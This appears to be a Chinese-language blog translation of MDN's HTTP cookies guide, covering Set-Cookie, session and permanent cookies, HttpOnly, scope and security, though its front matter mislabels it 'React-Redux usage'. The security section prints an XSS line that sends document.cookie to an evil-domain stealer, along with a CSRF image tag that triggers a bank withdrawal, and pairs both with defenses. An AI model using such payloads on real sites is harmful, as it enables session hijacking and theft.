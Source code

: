 ```yaml
---
layout: post
title: React-Redux usage 
date: 2017-02-01
categories: translation
---
```

## HTTP Cookies

一个HTTP cookie(web cookie, browser cookie) 是一小段server 发送给user browser 的data，browser可能会存储它并跟随下一次请求send it back  to the same server.典型的，它用来判断是否两次请求来自同一个browser可以用来保持用户 logged-in。它记住无状态HTTP 协议的stateful info.

Cookies 主要用于以下三种目的：
* Session managemnent(user logins, shapping carts)
* personalization（user preferences）
* Tracking (analyzing user behavior)

Cookies 也会用于通常的client-side 存储。但如果有更好的方法就不会用这一种，现在的browser 有许多可以使用的storage API。由于cookies会伴随每个request发送，这样就会造成额外的开销（尤其表现在移动端）。本地存储的新的API是 web storage API(localStorage sessionStorage)和 indexDB.

## Ceating cookies
当server 接收到一个HTTP request， 它就可以发送一个Set-Cookie header with the response.cookies 通常被存在browser 然后，在随后的跟发到该server的每个请求都会带着cookie,它作为Cookie HTTP header 的内容。额外的，可以设置过期时间和指定的domain , path ,limiting how long and to which site the cookie is sent to

## The Set-Cookie and Cookie headers
 set-cookie response header 是server发给 user agent 的。它长这样子
 
 ```
 Set-Cookie: <cookie-name>=<cookie-value>
 ```
 
 server 告诉client 要存一下这个cookie
 
 ```
 HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[page content]
 ```
 现在，对于每个发到server的request, browser 都会带上之前server 让存的cookies 使用Cookie header
 
```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

## Session cookies
我们上面创建的cookie 就是一个session cookie.当client 页面关闭，就会被移除，这些cookie只存在于当前session. 他们没有指定任何Expires 或者 max-age .注意： 大多浏览器通常都有session restoring enabeld, 它会让大部分session cookies 实际上是permanent 好像browser从未被关闭。

## Permanent cookies
不像session-cookie 在client  close就过期，permanent cookies 会在指定的日期（Expires）或者是过了指定时间（Max-Age）过期.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GM
```

## Secure and HttpOnly cookies
一个secure cookie 会被发送当request 使用了SSL和 HTTPS协议.注意， 机密和敏感信息不应该被HTTO cookie传输，因为整个机制是没有安全保证的。从Chrome 52 和ff52 不安全的sites(http:) 不能够设置带有“secure”指令的 cookies。
为了放置 cross-site scripting (XSS)attacks, HTTP-only cookies 是通过Document.cookie XHR request API 都拿不到的cookies的。当你在js脚本中不需要cookie的时候设置该属性。

## Scope of cookies
Domain , Path 指令定义了scope of cookies,具体说就是cookie被返回时的urls

domain 指定了哪些hosts cookie会被发送。如果没有被指定， 默认为当前document location (不包括subdomains). 如果domain 指定了，subdomains 就被包含了。
如果domain = mozilla.org cookies也会被设置在subdomain 像developer.mozilla.org
path 指示了一个在requested resource 中一定会存在的URL path在发送Cookie header 之前。%x2F("/")字符被解释为文件目录分隔符
如果 Path=/docs 被设置了，下列paths都会被match

* "/docs"
* "/docs/Web"

## JS access using Document.cookies
可以使用Document.cookie来创建新的cookie,如果HttpOnly flag不存在的话，就可以用js脚本来创建cookie

```
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

注意更安全的做法放在后面Security 部分。js 脚本可以获得的 Cookies 可能会被XSS 盗取。

## Security

秘密的敏感的信息都不应该使用cookies

## Session hijacking and xss

cookies 用于鉴定用户以及他的认证session. 所以从web app盗取cookie 就导致劫持了认证用户的session。通常的盗取cookies 的方法包括使用Social Engineering 或者开发一个XSS 漏洞在app中。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 属性通过阻止用js脚本获得cookie可以帮助减少这样的攻击

## Cross-site request forgery(CSRF)
考虑一个example。在这个场景下，一个img并不是真的img ，它只是要一个request 去偷取你银行账号里的钱

```
<img src="http://bank.example.com/withdraw?accout=bob&amount=100000&for=mallory">
```

如果你当前登陆了，你的cookie 仍然有效（并且没有其他验证），你就会在HTML加载img时 转移money。有一些tech 可以防止。

* 像XSS 做输入过滤
* 在任何敏感动作之前做认证
* 用于敏感操作的 cookies 应该有一个short lifetime
* OWASP CSRF prevention cheat sheet 
